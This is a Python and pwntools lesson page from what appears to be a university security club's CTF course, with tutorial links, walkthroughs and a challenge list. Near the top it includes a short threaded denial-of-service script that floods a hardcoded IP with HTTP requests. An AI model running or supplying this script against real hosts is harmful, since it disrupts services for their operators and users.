 # Module-1 Week-2 (Python) 🐍

Welcome to the second week (actually 1.5 weeks) of YoS :) </br>
This week we will be covering Python along with one of its very powerful library **pwntools**.
<p align="center">
<img src="https://user-images.githubusercontent.com/81357954/153569492-a10ef6ad-3e2a-45ed-bb46-8758eae71cbf.png" alt="drawing" width="400"/>
</p>

**Why it is called Python [:)?](https://docs.python.org/3/faq/general.html#:~:text=Details%20here.-,Why%20is%20it%20called%20Python%3F,to%20call%20the%20language%20Python.)** </br>

[**Python**](https://en.wikipedia.org/wiki/Python_(programming_language)) is an [interpreted](https://www.ibm.com/docs/en/zos-basic-skills?topic=zos-compiled-versus-interpreted-languages) general-purpose programming language. It is one of the most popular and widely-used programming languages in the world due to its high usability and large collection of libraries. 
Again Python is an open source software like Linux. So you can look up its source code [here](https://github.com/python/cpython), though you are not encouraged to read them 🦖.

Is Python itself written in C or C++? [An interesting read](https://softwareengineering.stackexchange.com/questions/20988/why-is-python-written-in-c-and-not-in-c) on this.
Unlike C or C++, Python has [automatic memory management](https://www.geeksforgeeks.org/memory-management-in-python/) i.e. in Python memory allocation and deallocation method is automatic, since it has its own garbage collector, so that the user does not have to do manual garbage collection. Python is a [dynamically typed](https://www.geeksforgeeks.org/type-systemsdynamic-typing-static-typing-duck-typing/) programming language which makes it more succint. 

We prefer Python in Cybersecurity, because complex scripts or attacks can be easily written in it. It helps to automate tasks across the cyberattack life cycle for both cyber attackers and defenders. Also, debugging python codes is quite simple.

```
import socket
import threading
target = '103.21.127.134'
fake_ip = '182.21.20.32'
port = 80
def attack():
    while True:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))
        s.sendto(("GET /" + target + " HTTP/1.1\r\n").encode('ascii'), (target, port))
        s.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
        s.close()
for i in range(500):
    thread = threading.Thread(target=attack)
    thread.start()
```
<p align="center">
  Snippet of a simple <a href ="https://en.wikipedia.org/wiki/Denial-of-service_attack">DoS attack</a> script in python. 
</p>


## Installation
We are not taking up `how to install python`. Since it is available by default on Linux. Also, just a google search away :).</br>
[Here](http://docs.pwntools.com/en/latest/install.html) is the link to install `pwntools`. Though it comes pre installed on the VM we have provided.

## Overview
This week's content includes an introduction to Python(syntax and such stuff). These resources will make you comfortable with python.</br>
Followed by an introduction to [pwntools](http://docs.pwntools.com/en/latest/), an interesting framework. `Pwntools` in itself is a huge package and even a dedicated module would be less to know everything about it. It will get you familiar with writing exploit scripts in Python.</br>
Some other important modules/libraries regularly used are [sys](https://docs.python.org/3/library/sys.html), [os](https://docs.python.org/3/library/os.html), [subprocess](https://docs.python.org/3/library/subprocess.html), all these are in-built python modules.

## Our Introductory Session for Python

[CSeC - Intro to Python](https://iitbacin.sharepoint.com/:v:/s/CSecClub/ETXm3oSRRoJKgKDCaKLiRbYBTh5fLAYkaow3MX59-5FTyQ?e=1rRkWg) | [Colab Notebook link](https://colab.research.google.com/drive/1jtco0kzb9pg7eAPUEh4VEAP8k7Iq1J3P?usp=sharing)

Credits to [scimaths](https://github.com/scimaths) 🙏
## Text guides

1. [Pico Primer(python + other basics)](https://primer.picoctf.com/#_programming_in_python)
2. [Intro to Python](http://introtopython.org/) (You may skip classes)
3. [Pwntools Cheat Sheet](https://gist.github.com/anvbis/64907e4f90974c4bdd930baeb705dedf)

## Video guides
- Another brief learn python [playlist](https://www.youtube.com/playlist?list=PLQVvvaa0QuDeAams7fkdcwOGBpGdHpXln) (The first 8 videos (85 mins) of the playlist are enough to get you going, you may skip the remaining videos :)


## CTF challenge Walkthroughs
1. string evaluation of input in python2 [HSCTF - Python Remote Code Execution ](https://www.youtube.com/watch?v=gmaWOknsb2A) (5 min) | Read more about Python2.x [input vulnerability](https://www.geeksforgeeks.org/vulnerability-input-function-python-2-x/)
1. pwntools process interaction [GOOGLE CTF 2021](https://www.proggen.org/doku.php?id=security:ctf:writeup:google:2021:filestore) (good read)
2. pwntools in bash [TAMU CTF 2020](https://www.youtube.com/watch?v=fZ3mPRctbO0) (17 mins)
3. Request module usage [OverTheWire natas level4](https://www.youtube.com/watch?v=Sf63W1xXzNU) (11  mins)
4. Pyjail  [Offshift 2021](https://www.youtube.com/watch?v=aK3b0PM1Fz8) (6 mins)

Now you may move to **Challenges** section to complete this week's material. Optimal duration to complete all the above material is 1.5 weeks(11 days).

## Practice
- [PicoGym](https://play.picoctf.org/practice) (Filter challenges by **Genral Skills**)
# Challenges

We have designed 5 challenges (in increasing order of difficulty):

1. [bruteforcer](bruteforcer)
2. [notwordle](notwordle)
3. [pyjail](pyjail)
4. [tic-tac-toe](tic-tac-toe)
5. [minesweeper](minesweeper)

All challenges are present in different folders of this
repository. All in all, you would need to solve **atleast 2 challenges throughtout the module** but we encourage that you solve all of these, for things are more fun that way 😊.
Make sure you go through the respective `README.md` files before jumping into the challenge. Have fun! 😁

Discussions among mentees are encouraged and we request you to use our [Discord Server](https://discord.gg/nnpCPsUrYV) for the same.
<p align="center">Created with :heart: by <a href="https://linktr.ee/csec.iitb">CSeC</a></p>
